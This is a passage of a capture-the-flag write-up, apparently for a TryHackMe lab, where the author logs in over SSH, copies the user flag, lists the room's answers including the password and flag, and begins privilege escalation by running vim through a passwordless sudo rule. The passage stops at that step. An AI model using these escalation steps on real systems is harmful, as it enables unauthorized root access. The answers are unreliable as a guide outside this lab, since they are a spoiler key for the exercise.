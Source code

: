 * ### Executing commands

	> ls -l

	```
	-rw-rw-r-- 1 mitch mitch 19 aug 17  2019 user.txt
	```

	User flag found! Copying over to local machine.

	> scp -P 2222 mitch@$IP:~/user.txt .

	> cd /home && ls -la

	```
	drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
	drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath
	```


<br>

## User flag:

> cat user.txt

```
G00d j0b, keep up!
```


<br>

## THM Questions:

* _Q5_: What's the password? <br> _A_: `secret`
* _Q6_: Where can you login with the details obtained? <br> _A_: `ssh`
* _06_: What's the user flag? <br> _A_: `G00d j0b, keep up!`
* _07_: Is there any other user in the home directory? What's its name? <br> _A_: `sunbath`



<br>

## Attempting privilege escalation:

* ### Finding `sudo` privileges

	> sudo -l

	```
	User mitch may run the following commands on Machine:
    	(root) NOPASSWD: /usr/bin/vim
	```

* ### Using `vim` to spawn a privileged shell

	> sudo vim
